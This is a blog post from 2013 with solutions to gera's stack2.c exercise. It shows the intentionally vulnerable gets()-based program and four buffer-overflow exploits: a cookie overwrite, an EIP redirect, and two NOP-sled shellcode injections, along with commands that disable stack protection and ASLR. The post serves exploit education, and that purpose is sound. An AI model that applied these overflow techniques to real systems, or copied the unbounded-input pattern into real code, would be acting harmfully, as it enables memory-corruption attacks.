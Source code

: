 Gera's Warming Up on Stack #2 - Solutions
==========================================
date: 02/Jan/2013
summary: Solutions for Gera's Warming up on Stack #2 program.
tags: exploit, ctf

## Introduction

Following is the part 2 in the series of posts I started back in August 2012 with an aim to provide an analysis and possible solutions for the vulnerable programs provided by Gerardo 'gera' Richarte at the [Insecure Programming by example](http://pages.cs.wisc.edu/~riccardo/sec/) page.

This post follows the [Gera's Warming Up on Stack #1 - Solutions](/posts/20120827_geras-wuos-stack1-solutions.html) post and if you have not read it, I request you to please do so. Most of the concepts are very similar and since they have been already talked about, I'll not be reiterating them here.

Let's get started. Below is the source for the vulnerable [stack2.c](http://pages.cs.wisc.edu/~riccardo/sec/stack2.html) program:

```c
/* stack2.c                                     *
 * specially crafted to feed your brain by gera */

int main() {
    int cookie;
    char buf[80];

    printf("buf: %08x cookie: %08x\n", &buf, &cookie);
    gets(buf);

    if (cookie == 0x01020305)
        printf("you win!\n");
}
```

Like its counterpart [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html), the above program too accepts user-input through the `gets` function and then looks for a specific value in a local variable named `cookie`. If this value is equal to a certain pre-defined constant, `printf` function is used to show a `you win!` message to the user. There is no direct means of modifying the content of the `cookie` variable. The `gets` function will keep reading from the stdin device until it encounters a newline or EoF character. Since this reading loop fails to honor the size of the destination buffer, a classic buffer overflow vulnerability is introduced in the program. Our aim is to leverage this vulnerability and exploit this program so that it prints the `you win!` message to stdout.

Here are a few observations that could be made by looking at the source of the program:

- Since it is defined prior to `buf`, the `cookie` would be placed at a higher memory address on the program stack, just below the saved registers from the function prologue
- The `buf` character array would be at an offset of at least 80B from `cookie`
- The `gets` call would accept unbounded user-input within `buf` array and hence it provides a mechanism to alter the call stack contents

Stack layout for [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) is identical to [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) as already outlined in the [Gera's Warming Up on Stack #1 - Solutions](/posts/20120827_geras-wuos-stack1-solutions.html) post.

Here are solutions I could think of to get the `you win!` message printed:

- [Solution #1: Overflow the internal `buf` array to overwrite `cookie` with `0x01020305`](#solution1)
- [Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`](#solution2)
- [Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address](#solution3)
- [Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address](#solution4)

Here's a brief description of the test system:

```
# cat /etc/lsb-release | grep DESC ; uname -a | cut -d' ' -f1,3,12-13 ; gcc --version | grep gcc ; cat /proc/cpuinfo | grep -E '(vendor|model|flags)'
DISTRIB_DESCRIPTION=*Ubuntu 10.04.2 LTS*
Linux 2.6.38 i686 GNU/Linux
gcc (Ubuntu 4.4.3-4ubuntu5) 4.4.3
vendor_id   : GenuineIntel
model       : 37
model name  : Intel(R) Core(TM) i3 CPU       M 350  @ 2.27GHz
flags       : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 syscall nx lm constant_tsc up pni monitor ssse3 lahf_l
```

## Solutions
<a name="solution1"></a>
### Solution #1: Overflow the internal `buf` array to overwrite cookie with `0x01020305`

Here's the GCC commandline to prepare [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) for this solution:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -o stack2 stack2.c
stack2.c: In function ‘main’:
stack2.c:8: warning: incompatible implicit declaration of built-in function ‘printf’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 2 has type ‘char (*)[80]’
stack2.c:8: warning: format ‘%08x’ expects type ‘unsigned int’, but argument 3 has type ‘int *’
/tmp/ccoBRXbD.o: In function `main':
stack2.c:(.text+0x27): warning: the `gets' function is dangerous and should not be used.
```

All done, let's exploit [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html):

```
# perl -e 'print "A"x80 . "\x05\x03\x02\x01"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

<a name="solution2"></a>
### Solution #2: Overflow the internal `buf` array to overwrite EIP with the address of `printf(you win!)`

We need to have a look at the assembly of [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and find out the location of the `printf` function which displays the `you win!` message:

```c
# objdump -d -M intel stack2 | grep -A20 main.:
08048444 <main>:
 8048444:   55                      push   ebp
 8048445:   89 e5                   mov    ebp,esp
 8048447:   83 ec 60                sub    esp,0x60
 804844a:   8d 45 fc                lea    eax,[ebp-0x4]
 804844d:   89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048451:   8d 45 ac                lea    eax,[ebp-0x54]
 8048454:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 8048458:   c7 04 24 50 85 04 08    mov    DWORD PTR [esp],0x8048550
 804845f:   e8 0c ff ff ff          call   8048370 &lt;printf@plt&gt;
 8048464:   8d 45 ac                lea    eax,[ebp-0x54]
 8048467:   89 04 24                mov    DWORD PTR [esp],eax
 804846a:   e8 e1 fe ff ff          call   8048350 &lt;gets@plt&gt;
 804846f:   8b 45 fc                mov    eax,DWORD PTR [ebp-0x4]
 8048472:   3d 05 03 02 01          cmp    eax,0x1020305
 8048477:   75 0c                   jne    8048485 &lt;main+0x41&gt;
 8048479:   c7 04 24 68 85 04 08    mov    DWORD PTR [esp],0x8048568
 8048480:   e8 fb fe ff ff          call   8048380 &lt;puts@plt&gt;
 8048485:   c9                      leave
 8048486:   c3                      ret
 8048487:   90                      nop
```

The address turns out to be `0x8048479`. Let's try exploiting:

```
# perl -e 'print "A"x88 . "\x79\x84\x04\x08"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
Segmentation fault
```

<a name="solution3"></a>
### Solution #3: Inject a NOP-prefixed `printf(you win!)` shellcode and overwrite EIP with its address

Let's first recompile [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) and request GCC to mark program stack as executable. Additionally, we also need to turn ASLR off so that we can have a static return address to overwrite EIP with:

```
# gcc -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o stack2 stack2.c 2>/dev/null ; readelf -l stack2 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4
#
# echo 0 >/proc/sys/kernel/randomize_va_space ; cat /proc/sys/kernel/randomize_va_space
0
```

Now lets go ahead with exploitation. The Null-free, NOP-prefixed `printf(you win!)` shellcode we used to exploit [stack1.c](http://community.corest.com/%7Egera/InsecureProgramming/stack1.html) in the [Gera's Warming Up on Stack #1 - Solutions](/posts/20120827_geras-wuos-stack1-solutions.html) post could be reused here:

```
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# ./stack2
buf: bffff4c4 cookie: bffff514
#
# perl -e 'print "\x90"x51 . "\xeb\x16\x31\xc0\x31\xdb\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x09\xcd\x80\x31\xc0\x40\x31\xdb\xcd\x80\xe8\xe5\xff\xff\xff\x79\x6f\x75\x20\x77\x69\x6e\x21" . "\xc4\xf4\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!#
```

<a name="solution4"></a>
### Solution #4: Inject a NOP-prefixed `printf(you win!)` shellcode through an environment var and overwrite EIP with its address

Lets get straight to exploitation:

```
# echo $WINCODE | hexdump -C
00000000  eb 16 31 c0 31 db 31 d2  b0 04 b3 01 59 b2 20 cd  |..1.1.1.....Y. .|
00000010  80 31 c0 40 31 db cd 80  e8 e5 ff ff ff 79 6f 75  |.1.@1........you|
00000020  20 77 69 6e 21 20 0d 0a                           | win! ..|
00000028
#
# ./getenvaddr WINCODE ./stack2
[+] WINCODE: 0xbffff726
#
# perl -e 'print "\x90"x88 . "\x26\xf7\xff\xbf"' | ./stack2
buf: bffff4c4 cookie: bffff514
you win!
```

So, we have now successfully exploited the [stack2.c](http://community.corest.com/%7Egera/InsecureProgramming/stack2.html) program through four different techniques. Depending on the motive of your exploitation attempt, other techniques could be devised and some, mentioned here, be rejected.

## Conclusion

Like I said, earlier, these solutions are not practical anymore. They just serve the purpose of understanding how exploits used to work before mitigation features were introduced in modern systems. But, as with everything else, understanding basics is really important. As mitigation features mature, exploitation techniques become increasingly complex. And to understand those, we need to build upon the solid foundation of basic concepts, like those discussed on this and other blogs.
